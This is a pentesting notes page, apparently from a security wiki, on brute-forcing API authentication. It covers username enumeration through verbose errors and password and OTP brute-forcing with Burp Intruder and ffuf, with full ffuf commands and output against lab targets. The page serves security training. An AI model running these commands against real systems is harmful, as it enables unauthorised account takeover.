





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Brute Force


**BFAs** (_Brute Force Attacks_) involve systematically trying various inputs to gain unauthorized access by exploiting weak or predictable credentials. Without [rate-limiting](../../../web/authentication/rate-limiting.md) or strong authentication mechanisms, attackers can automate these attempts to guess valid credentials and gain access to the API or its data.

[API2:2023](https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/)


## Passwords

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](../../../../tools/web/dirbusting/fuff.md).

<figure><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>


```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401
```


Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>


```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

________________________________________________
jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```


<figure><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>


```bash
# Brute-forcing jeremy's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200
```


## OTPs

> _The below example is based on HTB's_ [_API Attacks_](https://academy.hackthebox.com/course/preview/api-attacks) _module._

If the password policy is robust enough, we can check if the password reset functionality is vulnerable to BFAs due to weak One Time Passcodes (OTPs) (Figure 5).

<figure><figcaption><p>Figure 5: Getting the required information for brute-forcing the OTP</p></figcaption></figure>


```bash
# Brute-forcing the OTP
$ ffuf -u http://94.237.59.199:45348/api/v1/authentication/customers/passwords/resets -X POST -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -d '{"Email": "MasonJenkins@ymail.com","OTP": "FUZZ","NewPassword": "123456"}' -ac -c -fr ":false" -t 100

0426                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 40ms]
```


<figure><figcaption><p>Figure 6: Successfully logging in.</p></figcaption></figure>
